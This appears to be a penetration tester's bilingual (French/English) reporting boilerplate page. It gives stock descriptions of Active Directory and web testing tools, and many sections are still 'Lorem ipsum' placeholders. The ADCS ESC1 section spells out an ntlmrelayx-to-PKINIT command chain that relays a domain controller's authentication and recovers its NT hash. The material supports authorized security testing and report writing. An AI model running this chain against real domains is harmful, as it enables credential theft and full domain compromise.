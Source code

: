 ```yaml
---
title: Reporting boilerplates
description: Reporting boilerplates
date: 2022-08-02
---
```


# Reporting boilerplates

## Attacks

### NTLMv1 to LDAPS without signature

**French**

Lorem ipsum

**English**
Lorem ipsum

### ADCS ESC1

**French**

Lorem ipsum

```shell
ntlmrelayx.py -t http://<remote host>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

```shell
python gettgtpkinit.py '<DOMANIN>/<RELAYED_DC_MACHINE_ACCOUNT>' -pfx-base64 $(cat <path to base64 output from ntlmrelayx>) <where to save ccache>
```

```shell
KRB5CCNAME=<path to ccache> python getnthash.py -key '<AS-REP key obtained from the above command>' '<relayed DC>'
```







**English**
Lorem ipsum



## Tools

### BloodHound

**French**
Les testeurs ont utilisé l'outils de cartographie et d'analyse BloodHound (https://github.com/BloodHoundAD/BloodHound). Cet outils permet de visualisé des données receuillies par des requêtes LDAP.

**English**

To confirm this issue, the testers used an Active Directory cartography and analysis tool called `BloodHound` (https://github.com/BloodHoundAD/BloodHound). This tool starts by collecting data from the Active Directoy instance via LDAP queries and imports this data into a database. The database can then be queried to obtain information on potential misconfigurations.

The testers used the following Cipher query to [...]

### Nuclei

**French**
Lorem ipsum

**English**

To confirm this issue, the testers used Nuclei (https://github.com/projectdiscovery/nuclei), a vulnerability scanner developed by Project Discovery. Nuclei operates by employing predefined templates or "nuclei signatures" to systematically send targeted requests to web servers, effectively identifying security weaknesses and misconfigurations in web applications.

### Metasploit Framework

**French**
Lorem ipsum

**English**

To exploit identified vulnerabilities, the testers utilized the Metasploit Framework (https://github.com/rapid7/metasploit-framework), a versatile penetration testing tool. 

### NetExec

**French**

Les testeurs ont utilisé NetExec (https://github.com/Pennyw0rth/NetExec), un outil open source de post-exploitation et de test de pénétration  conçu pour automatiser diverses tâches lors d'évaluations de sécurité.  En particulier, ils ont utilisé le module MODULE_NAME pour identifier  [...]

**English**

The testers used NetExec (https://github.com/Pennyw0rth/NetExec) an open-source post-exploitation and penetration testing tool designed to automate a variety of tasks during security assessments. In particular, they used the MODULE_NAME module to identify [...]

### rdp-sec-check

**French**

Afin de confirmer cette vulnérabilité, les testeurs ont utilisé dp-sec-check (https://github.com/CiscoCXSecurity/rdp-sec-check). Un outil qui permet d'énumérer les configurations de sécurités d'un serveur de Bureau à Distance (Terminal Services).

**English**

To confirm this issue, the testers used rdp-sec-check (https://github.com/CiscoCXSecurity/rdp-sec-check) a script to enumerate security settings of an RDP Service (AKA Terminal Services).

### kerbrute

**French**

Afin de confirmer cette vulnérabilité, les testeurs ont utilisé kerbrute (https://github.com/ropnop/kerbrute), un outil permettant de pulvériser des mots de passe et enumérer les utilisateurs Active Directory valident à l'aide de Kerberos Pre-Authentication.

**English**

To confirm this issue, the testers used kerbrute  (https://github.com/ropnop/kerbrute), a tool to quickly bruteforce and  enumerate valid Active Directory accounts through Kerberos  Pre-Authentication.

### Responder

**French**

Afin de confirmer cette vulnérabilité, les testeurs ont utilisé Responder (https://github.com/lgandx/Responder), un outil qui permet d'empoisonné divers protocoles de résolution de nom désuets.

**English**

To confirm this issue, the testers used Responder (https://github.com/lgandx/Responder), a network protocol poisoner and relay.

### Coercer

**French**
Lorem ipsum

**English**

The testers used Coercer (https://github.com/p0dalirius/Coercer), a tool to automatically coerce a Windows host to authenticate on an arbitrary machine through many methods.

### Impacket

**French**

Afin de confirmer cette vulnérabilité, les testeurs ont utilisé le script secretsdump.py de la librairie Impacket (https://github.com/fortra/impacket/blob/master/examples/secretsdump.py).

Cet outil permet de récupérer le contenu de Local Security Authority (LSA) ainsi que les ruches de registre SAM, SECURITY et SYSTEM.

**English**
Lorem ipsum

### BloodHound ingestor / Neo4J
#### French
Les testeurs ont utilisé les données recceuillies pendant la période de reconnaissance afin d'effectuer une recherche sur [...]
#### English